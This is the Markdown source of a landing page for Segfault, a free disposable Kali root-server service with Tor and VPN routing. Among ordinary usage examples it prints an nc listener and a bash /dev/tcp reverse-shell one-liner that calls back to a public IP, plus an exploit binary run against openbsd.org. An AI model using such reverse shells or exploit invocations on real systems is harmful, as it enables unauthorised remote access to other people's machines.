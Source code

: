 ```yaml
---
layout: default
title: Segfault
description: Disposable Root Servers.
---
```


<!-- <div style="width:80%; margin:auto">
</div> -->

{% include nav-segfault.html margin-top="-1rem" margin-bottom="2rem" %}

<div align="center"><h1><em>Making the world suck less<br>one TCP packet at a time...</em></h1></div>

## Log in

```shell
ssh root@segfault.net # The password is 'segfault'
```
{:refdef: style="text-align: center;"}
NEW: Start a [Remote Desktop](https://shell.segfault.net) inside your Browser.
{: refdef}

{:refdef: style="text-align: center;"}
![login screen](sf-login.png){:height="80%" width="80%"}
{: refdef}

## What it does

__Segfault__ offers free unlimited Root Servers. A new server (inside a Virtual Machine) is created for every SSH connection.

* Dedicated `Root Server` for every user.
* Pre-installed tools on Kali-Linux.
* Outgoing traffic is routed through NordVPN/CryptoStorm/Mullvad.
* Reverse TCP/UDP port on a public IP.
* Transparent TOR to connect to `.onion` addresses.
* Log in via `.onion`, `.gsocket` or direct `ssh` (port 22 or 443).
* Encrypted DNS traffic (DNS over HTTPS).
* Pre-configured `.onion` web server. Just put your files in /onion.
* Encrypted storage in `/sec` and `/home` with your password. 
* Encrypted storage is only accessible while you are logged in. Keys are wiped on log out.
* Only the user can decrypt the data. We do not have the key.
* No Logs.

## Show me!

The servers are a great place to compile *stuff* and to test *stuff*.

**Install any app you like:**

```shell
apt install nmap && nmap -thc
```

**Work the Internet**

```shell
ping 1.1.1.1
curl ipinfo.io | jq
ssh blah@anotherserver.com
./7350-sshx3-expl openbsd.org
```

**Publish your webpage on the Darknet:**

```shell
# Share files anonymously:
echo "My First File Shared on The Onion Router (TOR) network" >/onion/helloworld.txt

# Or publish a full webpage (using Markdown syntax):
# Edit your webpage in /sec/www/content/*.md and then publish them:
cd /sec/www && make html
```

**Start Firefox or a Remote Desktop X11/GUI:**

```shell
startxvnc
```

**Work the DarkNet:**

```shell
w3m http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/
ssh root@ta6kb6vqm3vd7vlgvf7k4nbhfzst2yfy52t6dqzmz2plteewn7ynmtad.onion
```

**Connect to IRCNet:**

```shell
su user -c "irssi -c ircnet -n MyNickName"
```

**We allow port forwarding and proxies:**

```shell
ssh -D 127.0.0.1:1080 root@segfault.net
# then from another Terminal on your workstation:
curl -x socks5h://0 ipinfo.io
curl -x socks5h://0 http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/ 
```
<!-- Windows does not like -D 1080 and needs 127.0.0.1:1080 (and does not like 127.1:1080 either) -->

**Connect to your own public PORT:**

```shell
# On your server:
nc -vnlp 34868 # Find your IP & PORT during first log in.

# On another server start a connect back reverse shell to your IP & PORT:
setsid bash -i &>/dev/tcp/185.117.118.23/34868 0>&1 &
```

## How it works

Read the [FAQ](faq) and join us on [Telegram](https://t.me/thcorg) or read the source on [GitHub](https://github.com/hackerschoice/segfault).

This is a **free service** and there are [some restrictions](free) in place. You may want to [upgrade your server](upgrade) and go unrestricted.

## Similar Services

- [SDF Public Access Unix](http://sdf.org/)
- [WindowsOnFly](https://app.apponfly.com/trial)
- [OnWorks](https://www.onworks.net/os-distributions/debian-based/free-kali-linux-online)
- [FreeShell](https://freeshell.de/)
- [Oracle Cloud Free Tier](https://www.oracle.com/uk/cloud/free/)
- [Play With Docker](https://www.docker.com/play-with-docker/)
- [Trash.net](https://www.trash.net/)
- [Tilde.club](http://tilde.club/)
- [Project SF](https://projectsegfau.lt/)
- [and many others...](https://free-for.dev/)

## Love Research. Hate Abuse.

We do not tolerate abuse. Contact us on [Telegram](https://t.me/thcorg) or email root at thc.org if you have any concerns.

## Contact

{% include contact-details.md %}

